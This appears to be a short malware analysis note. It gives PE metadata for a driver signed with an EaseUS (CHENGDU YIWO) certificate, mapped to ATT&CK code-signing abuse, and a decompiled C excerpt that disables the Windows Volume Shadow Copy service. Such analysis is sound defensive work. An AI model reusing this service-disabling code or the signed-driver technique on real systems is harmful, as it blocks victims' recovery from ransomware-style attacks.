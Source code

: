 ```json
    "General": {
        "PE Type": "driver",
        "Entrypoint": "24584",
        "Entrypoint Section": "INIT",
        "Header checksum": "0xc37c",
        "Verify checksum": "0xc37c",
        "Match checksum": "True",
        "Sig": "488b05f1e0ffff49b932a2df2d992b00004885c07405493bc1752f4c8d05d6e0ffff48b82003000080f7ffff488b004933c049b8",
        "imphash": "5bba6eb3fccad3d563d56ef2d7e5d5e8",
        "warning": [
            "Suspicious flags set for section 4. Both IMAGE_SCN_MEM_WRITE and IMAGE_SCN_MEM_EXECUTE are set. This might indicate a packed executable."
        ],
        "Timestamp": "2008-08-14 18:11:21"
    },
```
<br /><br />
driver sig is EaseUS - T1553.002 Code Signing

```json
    "SignatureExtracted": {
        "CERT_0": {
            "CommonName": "CHENGDU YIWO Tech Development Co., Ltd.",
            "OrganizationalUnit": "Digital ID Class 3 - Microsoft Software Validation v2",
            "Organization": "CHENGDU YIWO Tech Development Co., Ltd.",
            "Locality": "Chengdu",
            "StateOrProvinceName": "None",
            "CountryName": "CN",
            "Start": "Apr 23 00:00:00 2012 GMT",
            "Ends": "Sep 11 23:59:59 2014 GMT",
            "SerialNumber": "68804683173832892932091550486902617573",
            "SerialNumberMD5": "705edf5c1af78770de4153bccb757055"
        }
    },
```
<br /><br />
Disable vss - T1490 Inhibit System Recovery

```c
        v14 = 0;
        v15 = OpenSCManagerW(0, L"ServicesActive", 0xF003Fu);
        TokenHandle.dwLowDateTime = (DWORD)v15;
        if ( v15 )
        {
          v16 = OpenServiceW(v15, L"vss", 0x22u);
          v17 = v16;
          if ( v16 )
          {
            if ( !ChangeServiceConfigW(v16, 0x10u, 4u, 0xFFFFFFFF, 0, 0, 0, 0, 0, 0, 0) )
              v14 = v11();
            ControlService(v17, 1u, 0);
            CloseServiceHandle(v17);
            CloseServiceHandle((SC_HANDLE)TokenHandle.dwLowDateTime);
          }
          else
          {
            v14 = v11();
            CloseServiceHandle((SC_HANDLE)TokenHandle.dwLowDateTime);
          }
        }
        else
        {
          v14 = v11();
```